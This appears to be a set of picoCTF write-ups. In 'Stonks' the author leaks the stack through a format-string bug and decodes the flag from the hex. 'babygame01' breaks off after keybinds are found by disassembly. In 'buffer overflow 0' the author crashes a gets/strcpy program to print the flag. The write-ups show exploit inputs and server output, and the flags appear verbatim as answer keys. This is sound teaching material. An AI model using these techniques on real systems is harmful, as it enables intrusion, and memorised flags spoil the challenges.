

# Stonks

**Flag:** `picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}`

We're given a C source file `vuln.c` and told there's a vulnerability in it. Browsing through it, this code block seems to be the unsafe one

```
    char *user_buf = malloc(300 + 1);
    printf("What is your API token?\n");
    scanf("%300s", user_buf);
    printf("Buying stonks with token:\n");
    printf(user_buf);  ■ Format string is not a string literal (potentially insecure) (fix available)
```

Here, the final `printf` statement is not a literal. My IDE even gives me a warning here. In this, if I use any format specifiers such as `%s`, `%ld` or `%p`, `printf` will treat them as such and then try to access additional information, potentially causing a memory overflow and/or security vulnerabilities.

We're also given a command `nc mercury.picoctf.net 6989` to run the program on the server. We use this method of injecting format specifiers, in it

1. **Using the character sequence specifier `%s`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
Buying stonks with token:
timeout: the monitored command dumped core
```

2. **Using the integer specifier `%d`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d
Buying stonks with token:
137020432134524928134515139-134632064-11137011552-134577904-134631993013701568011370204001370204321868786032206820665981240864987867090118349702208124742331601778542892887344842360115-7470979-134391048-13457708840820224010-136086295-134573888-134634048-134635520-7459304-136149363-134634048134516426-74592920-134492407134524928-134635520-134631904-7459240-134468272-134629232408202240-134635520134524928-7459240134515846137011552-7459260-7459240134515689-134634500
Portfolio as of Fri Nov  3 10:50:09 UTC 2023


1 shares of RRJY
4 shares of GKV
1 shares of KQ
108 shares of LE
18 shares of PQ
81 shares of OL
235 shares of TP
18 shares of LKE
72 shares of MLW
Goodbye!
```

3. **Using the pointer specifier `%p`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio

1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
Buying stonks with token:
0x84c63b00x804b0000x80489c30xf7f68d800xffffffff0x10x84c41600xf7f761100xf7f68dc7(nil)0x84c51800x30x84c63900x84c63b00x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x35386130
Portfolio as of Fri Nov  3 11:14:48 UTC 2023


3 shares of LGN
1 shares of PK
22 shares of GM
17 shares of IJV
19 shares of Y
112 shares of PWU
Goodbye!
```

The first attempt gives us nothing, but the second and third give us a sequence of decimals and hexadecimals respectively.

Using the number system converters on [rapidtables](https://www.rapidtables.com/convert/number/), the sequence of decimals seems to give us nothing but meaningless data.



But for the hexadecimal characters, we get promising results. Cleaning up the hex by removing the digits with a `(nil)` after them and all `0x` indicators except the first one, we get this.


The flag seems to be, albiet distorted, as `ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3ÿº}`.

It seems every four characters in the flag are reversed. We write some python to take care of this

```
string = "ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3ÿº}"
new_string = ""
tmp = ""

for i in range(len(string)):
    if i % 4 == 0:
        new_string += tmp[::-1]
        tmp = ""

    tmp += string[i]
print(new_string)
```

```
~/Projects $ python3 main.py
picoCTF{I_l05t_4ll_my_m0n3y_0a853e52
```

# babygame01

We're given a connection command to a game with `nc saturn.picoctf.net 55729` and its binary file `game`.

We know we can move the player with the keys 'w', 'a', 's' and 'd'. So we disassemble `game` and look for how a command such as `w` is interpreted.

```
~/Downloads $ objdump -D game | less
```

Searching for the hexadecimal value of 'w' (`0x77`), we find the following instruction

```
 80495bd:       80 7d f4 77             cmpb   $0x77,-0xc(%ebp)
```

So every keybind in this game is checked using the format `cmp $0xXX,-0xc(%ebp)`, where `XX` is the hexadecimal representation of the key being pressed.

Performing a search for every instruction with the structure above, we get

```
~/Downloads $ objdump -D game | grep 'cmpb.*-0xc(%ebp)'
 804957d:       80 7d f4 6c             cmpb   $0x6c,-0xc(%ebp)
 804958e:       80 7d f4 70             cmpb   $0x70,-0xc(%ebp)
 80495bd:       80 7d f4 77             cmpb   $0x77,-0xc(%ebp)
 80495d2:       80 7d f4 73             cmpb   $0x73,-0xc(%ebp)
 80495e7:       80 7d f4 61             cmpb   $0x61,-0xc(%ebp)
 80495fe:       80 7d f4 64             cmpb   $0x64,-0xc(%ebp)
```

So we get the hex values for the possible keybinds as `0x6c`, `0x70`, `0x77`, `0x73`, `0x61` and `0x64`. Converting them to ASCII leads to the following possible keybinds being discovered

| Hex    | ASCII |
|--------|-------|
| `0x6c` | l     |
| `0x70` | p     |
| `0x77` | w     |
| `0x73` | s     |
| `0x61` | a     |
| `0x64` | d     |

# buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

Here, we have a simple piece of C code that we need to overflow. The relevant code is this

```
#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
printf("%s\n", flag);
fflush(stdout);
exit(1);
}

void vuln(char *input){
char buf2[16];
strcpy(buf2, input);
}

int main(int argc, char **argv){

FILE *f = fopen("flag.txt","r");
if (f == NULL) {
printf("%s %s", "Please create 'flag.txt' in this directory with your",
"own debugging flag.\n");
exit(0);
}

fgets(flag,FLAGSIZE_MAX,f);
signal(SIGSEGV, sigsegv_handler); // Set up signal handler

gid_t gid = getegid();
setresgid(gid, gid, gid);


printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1);
vuln(buf1);
printf("The program will exit now\n");
return 0;
}
```

Here, an input of just over 20 characters is enough for it to overflow and give us the flag.

```
~ $ nc saturn.picoctf.net 64712
Input: gbBPmxz01LIlqUWhRTPD
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
